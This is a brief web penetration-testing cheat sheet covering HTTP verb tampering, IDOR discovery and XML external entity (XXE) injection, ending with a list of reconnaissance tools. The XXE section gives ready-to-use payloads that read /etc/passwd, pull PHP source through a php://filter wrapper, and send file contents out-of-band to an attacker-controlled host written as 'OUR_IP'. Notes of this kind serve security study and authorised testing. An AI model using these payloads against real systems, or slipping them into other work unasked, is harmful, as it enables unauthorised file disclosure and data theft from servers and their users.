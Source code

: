 I. HTTP Verb Tampering

**HTTP Methods:**

- HEAD
    
- PUT
    
- DELETE
    
- OPTIONS
    
- PATCH
    

**Curl Command for HTTP Methods:**

```
curl -X OPTIONS <url>
```

II. IDOR (Insecure Direct Object References)

**Identification Techniques:**

- Inspect URL parameters and APIs.
    
- Analyze AJAX calls.
    
- Check for reference hashing/encoding.
    
- Compare user roles for access control discrepancies.
    

**Common Commands:**

```
echo -n 'string' | md5sum
echo -n 'string' | base64
```

III. XXE (XML External Entity Injection)

**Common XXE Payloads:**

```
<!ENTITY xxe SYSTEM "http://localhost/email.dtd">
<!ENTITY xxe SYSTEM "file:///etc/passwd">
<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

IV. Additional Tools

- **Burp Suite** for testing HTTP methods and identifying IDORs.
    
- **Amass** for passive DNS enumeration.
    
- **Shodan** for discovering exposed services.
    
- **TheHarvester** for gathering information from public sources.
    
- **Censys** for advanced reconnaissance.